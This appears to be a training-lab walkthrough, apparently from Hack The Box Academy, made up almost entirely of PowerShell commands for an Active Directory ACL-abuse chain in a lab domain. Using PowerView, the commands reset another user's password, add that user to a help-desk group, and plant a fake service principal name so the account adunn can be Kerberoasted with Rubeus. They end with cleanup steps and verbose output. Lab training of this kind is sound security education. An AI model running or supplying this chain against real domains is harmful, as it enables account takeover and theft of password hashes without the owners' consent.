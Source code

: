 #### Creating a PSCredential Object
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
#### Creating a SecureString Object
```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
#### Changing the User's Password
```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
#### Creating a SecureString Object using damundsen
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
#### Adding damundsen to the Help Desk Level 1 Group
```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

  Adding damundsen to the Help Desk Level 1 Group

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
#### Confirming damundsen was Added to the Group
```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
#### Creating a Fake SPN
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
#### Kerberoasting with Rubeus
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap
```
#### Removing the Fake SPN from adunn's Account
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```
#### Removing damundsen from the Help Desk Level 1 Group
```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```
#### Confirming damundsen was Removed from the Group
